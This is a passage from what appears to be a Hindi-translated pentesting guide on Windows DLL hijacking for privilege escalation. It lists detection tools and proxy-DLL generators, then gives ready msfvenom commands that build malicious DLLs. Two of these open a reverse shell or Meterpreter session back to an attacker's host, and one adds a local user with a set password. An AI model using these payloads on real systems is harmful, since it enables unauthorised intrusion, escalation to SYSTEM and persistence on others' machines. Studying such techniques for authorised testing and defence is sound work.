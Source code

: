 {% content-ref url="dll-hijacking/writable-sys-path-+dll-hijacking-privesc.md" %}
[writable-sys-path-+dll-hijacking-privesc.md](dll-hijacking/writable-sys-path-+dll-hijacking-privesc.md)
{% endcontent-ref %}

### Automated tools

[**Winpeas** ](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)यह जांचेगा कि क्या आपके पास सिस्टम PATH के अंदर किसी भी फ़ोल्डर पर लिखने की अनुमति है।\
इस भेद्यता का पता लगाने के लिए अन्य दिलचस्प स्वचालित उपकरण हैं **PowerSploit functions**: _Find-ProcessDLLHijack_, _Find-PathDLLHijack_ और _Write-HijackDll._

### Example

यदि आप एक exploitable परिदृश्य पाते हैं, तो इसे सफलतापूर्वक शोषण करने के लिए सबसे महत्वपूर्ण चीजों में से एक होगा **एक dll बनाना जो कम से कम सभी कार्यों को निर्यात करता है जो executable इससे आयात करेगा**। किसी भी तरह, ध्यान दें कि Dll Hijacking उपयोगी है ताकि [मध्यम इंटीग्रिटी स्तर से उच्च **(UAC को बायपास करते हुए)**](../authentication-credentials-uac-and-efs.md#uac) या [**उच्च इंटीग्रिटी से SYSTEM**](./#from-high-integrity-to-system)** में बढ़ा जा सके।** आप **कैसे एक मान्य dll बनाएं** का एक उदाहरण इस dll hijacking अध्ययन में पा सकते हैं जो निष्पादन के लिए dll hijacking पर केंद्रित है: [**https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows**](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows)**।**\
इसके अलावा, **अगले अनुभाग** में आप कुछ **बुनियादी dll कोड** पा सकते हैं जो **टेम्पलेट** के रूप में या **निष्क्रिय कार्यों के साथ एक dll बनाने** के लिए उपयोगी हो सकते हैं।

## **Creating and compiling Dlls**

### **Dll Proxifying**

बुनियादी रूप से एक **Dll proxy** एक Dll है जो **लोड होने पर आपके दुर्भावनापूर्ण कोड को निष्पादित करने में सक्षम है** लेकिन साथ ही **प्रदर्शित** और **काम** करने के लिए **वास्तविक पुस्तकालय** को सभी कॉल को रिले करके **निर्धारित** किया गया है।

उपकरण [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) या [**Spartacus**](https://github.com/Accenture/Spartacus) के साथ आप वास्तव में **एक executable निर्दिष्ट कर सकते हैं और उस पुस्तकालय का चयन कर सकते हैं** जिसे आप proxify करना चाहते हैं और **एक proxified dll उत्पन्न कर सकते हैं** या **Dll निर्दिष्ट कर सकते हैं** और **एक proxified dll उत्पन्न कर सकते हैं**।

### **Meterpreter**

**Get rev shell (x64):**
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**एक मीटरप्रेटर प्राप्त करें (x86):**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**एक उपयोगकर्ता बनाएं (x86 मैंने x64 संस्करण नहीं देखा):**
```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
### आपका खुद का
